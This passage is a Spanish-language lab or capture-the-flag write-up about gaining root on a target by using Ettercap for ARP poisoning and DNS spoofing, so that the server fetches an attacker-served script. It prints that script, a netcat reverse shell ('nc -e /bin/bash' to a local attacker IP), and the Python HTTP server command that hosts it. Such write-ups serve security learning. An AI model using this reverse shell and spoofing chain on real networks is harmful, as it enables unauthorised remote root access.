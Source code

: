 Utilizando Ettercap, se hace un ataque de **DNS Spoofing** para poder pasarle al servidor cualquier script. En este caso es suficiente con una reverse shell simple.

Pasos

- Crear el archivo attack.sh en la máquina local.
- Ejecutar un servidor http con python en el mismo directorio que attack.sh.
- Ejecutar Ettercap y realizar ARP Poisoning y DNS Spoofing.

Una vez esté todo, ejecutar ddos.sh en el servidor y obtener una shell como root.

![img](/imgs/write-ups/by-me/colors/etter.png#center)

Attack.sh

```
$ cat attack.sh
nc -e /bin/bash 192.168.1.86 1234
```

Inicio servidor

```
$ python3 -m http.server 80
```
